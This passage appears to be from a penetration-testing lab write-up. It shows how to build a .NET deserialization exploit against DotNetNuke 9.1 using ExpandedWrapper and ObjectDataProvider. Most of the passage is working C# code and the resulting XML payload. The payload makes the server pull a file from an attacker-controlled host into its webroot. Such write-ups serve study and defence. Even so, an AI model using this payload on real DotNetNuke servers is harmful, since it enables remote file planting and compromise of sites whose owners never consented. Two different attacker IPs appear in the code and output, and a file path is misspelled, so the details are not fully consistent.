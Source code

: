 The `ExpandedWrapper` class can be used to finalize the construction of a malicious payload. The EW provides a base class that implements **projections**, a mechanism that an object is transformed into a different form. As such data providers are able to create objects of arbitrary types to encapsulate data retrieved with expansions and projections. In essence, we use this class to wrap our ODP object into a new type and provide the properties needed (Method name and parameters), which is assigned to the EW instance properties and allow them to be serialized by XmlSerializer. 

```java
ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new FileSystemUtils();
myExpWrap.ProjectedProperty0.MethodName = "PullFile";
myExpWrap.ProjectedProperty0.MethodParameters.Add("http://192.168.119.7/myODPTest.txt");
myExpWrap.ProjectedProperty0.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");

Hashtable table = new Hashtable();
table["myTableEntry"] = myExpWrap;
String payload = XmlUtils.SerializeDictionary(table, "profile");
TextWriter writer = new StreamWriter("C:\\Users\\Public\\ExpWrap.txt");
writer.Write(payload);
writer.Close();

Console.WriteLine("Done!");
```

Our payload is written into the Users Public directory

```xml
<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://192.168.45.184/test.txt</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>
```

To test that our code can deserialize, we write a simple code that takes in the XML and deserializes it.

```java
public static void Deserialize() {
    string xmlSource = System.IO.File.ReadAllText("C:\\Useres\\Public\\ExpWrap.txt");
    Globals.DeserializeHashTableXml(xmlSource);
}
```